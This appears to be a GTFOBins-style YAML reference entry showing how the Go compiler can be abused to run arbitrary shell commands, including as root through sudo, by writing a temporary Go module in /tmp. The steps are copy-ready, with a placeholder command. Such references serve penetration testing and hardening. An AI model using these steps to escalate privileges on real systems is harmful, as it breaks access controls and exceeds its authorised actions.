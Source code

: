 ```yaml
---
description: Go compiler binary. Can be abused to execute arbitrary commands or escalate privileges if run as root.
functions:
  command:
    - code: |
        # Execute arbitrary commands using a temporary Go module
        CMD="id"
        mkdir /tmp/gomod && cd /tmp/gomod
        go mod init mod
        echo "package main; import \"os/exec\"; func main() { exec.Command(\"/bin/sh\",\"-c\",\"$CMD\").Run() }" > main.go
        go run main.go
  sudo:
    - code: |
        # Execute arbitrary commands as root
        CMD="id"
        mkdir /tmp/gomod && cd /tmp/gomod
        sudo go mod init mod
        echo "package main; import \"os/exec\"; func main() { exec.Command(\"/bin/sh\",\"-c\",\"$CMD\").Run() }" > main.go
        sudo go run main.go
notes:
  - "This abuses `go run` to execute arbitrary shell commands by creating a temporary Go module."
  - "Requires Go compiler installed."
  - "If run with root privileges, any command can be executed as root."
  - "Temporary files are created in /tmp/gomod."
---
```

